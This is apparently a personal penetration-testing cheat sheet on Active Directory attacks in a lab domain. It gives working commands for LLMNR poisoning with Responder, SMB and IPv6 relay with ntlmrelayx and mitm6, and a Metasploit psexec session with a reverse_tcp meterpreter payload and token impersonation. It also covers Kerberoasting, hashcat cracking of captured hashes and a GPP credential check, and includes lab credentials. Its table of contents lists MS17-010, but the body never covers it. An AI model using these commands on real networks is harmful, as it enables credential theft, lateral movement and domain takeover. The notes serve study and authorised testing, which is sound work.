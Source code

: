 **1 Netbios && LLMNR Name Poisoning** \
**2 Relay Attacks** \
**3 MITM6** \
**4 Token Impersonation** \
**5 MS17-010** \
**6 Kerberoasting**

---

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:**

- needs traffic - ideal before nmap/nessus scans
- Responder:

  `python /usr/share/responder/Responder.py -I eth0 -rdwv`

  a) try to access attacker IP address::  ![llmnr_poison](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/admin_malz_llmnr_poison.png)

  `hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt # --m 5600 module for NetNTLMv2`

---

**2. SMB Relay attacks:**

- Requirements: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
- setup ntlmrelay:: \  ![ntlmrelay.py](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/ntlmrelay_py.png)
  a) Find machines w/ smb enabled: Nessus or Nmap: \

`/opt/impacket/examples/$ python3 ntlmrelayx.py -tf targets.txt -smb2support (-i) #python3 -m pip install . ## -i interactive`

- Working but keeps failing::  ![revmalz](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/revshell_smb_malz.png)
  &&  ![break](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/malz_smb_breaking.png)
- shells W/ creds::  ![shells](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/meterpreter_psexec_shells.png) \
  *wmiexec.py && smbexec.py first! psexec and smb meterpreter is very noisy*

---

**3. Pv6 Attacks: DNS relay:**

*Requirements, must have certificate in DC: manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs*

Setup relay && ipv6 spoofing:

a. `/opt/mitm6/mitm6$ sudo python3 mitm6.py -d carbon.local #(DC) ` \
b. `/opt/impacket/examples$ sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme` \
c. `xdg-open /opt/impacket/examples/lootme/domain_users_by_group.html`

![IPv6_relay](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/relay_ipv6.png)

**4. Token Impersonation:**
```
msfconsole use exploit windows/smb/psexec 
msfconsole set smbdomain carbon.local set smbpass Password!1 set smbuser e.triage set rhost 192.168.86.206 set target 2(Native Upload)
set payload /windows/x64/meterpreter/reverse_tcp set lhost eth0 run
```
```
`meterpreter> hashdump, getuid, sysinfo`
`meterpreter> load <tab> incognito`
`meterpreter> help - `
`meterpreter> list_tokens`
`meterpreter> impersonate_token CARBON\\e.triage`
`meterpreter> shell`
`C:\Windows\system32> whoami :: carbon\e.triage`
```

***if hashdump run now - will throw errors :: to fix "rev2self" see ![revert_2_self](Screenshots/rev2selfpng.png)***
***Token is there until computer is reboot***

**Mitigation strategy::** 
+ Limit User/Group token creation permissions
+ Account tiers - Domain admin's should only be logging into DC's
+ Local admin restriction

---

**5. Kerberoasting:** Goal:: Get TGS and decrypt server's account hash (tgs may be hint). See ![kerberoasting](Screenshots/kerberoasting.png)
  1. User -> DC  :: Request TGT. Provide NTLM hash
  2. DC -> User  :: Receive TGT enc w/ krbtgt hash
  3. User -> DC  :: Request TGS for Server (Presents TGT)
  4. DC -> User  :: Receive TGS ecn w/ server's account hash (TGS received)
  5. User -> App :: Present TGS for service enc w/ server's account
  6. App -> User :: Used when mutual Authentication is required
  7. App -> DC   :: PAC Validation Request Optional
  8. App -> DC   :: PAC Validation Response Optional

  
```
/opt/impacket/examples# GetUsersSPNs.py Carbon.local/e.triage:'Password!1' -dc-ip <ip-DC> -request -outputfile hashes.kerbroast
```

```
PS C:\Users\e.triage> klist get host/ETHYL <computer name>
#0>     Client: e.triage @ CARBON.LOCAL
        Server: krbtgt/CARBON.LOCAL @ CARBON.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 12/24/2021 13:17:39 (local)
        End Time:   12/24/2021 23:17:39 (local)
        Renew Time: 12/31/2021 13:16:38 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: Oxytocin-DC.Carbon.local
```

```

hashcat -m 13100 hashes.kerbroast /usr/share/wordlists/rockyou.txt -O #13100 is Kerberos TGS module
```

**6 GPP Attacks:**
  1. Group Policy Preferences allows admins to create policies w/ embedded creds
  2. creds encrypted and placed in a "cPassword"
  3. key accidentally released
  4. Patched in MS14-025 - doesnt prevent previous uses (Server 2012). 
  5. msf auxiliary (smb_enum_gpp) #to check for GPP vuln



---

[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa) \
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords) \
[impacket] (https://github.com/SecureAuthCorp/impacket) \
[mitm6] (https://github.com/dirkjanm/mitm6) \
[GPP_extras] (https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage)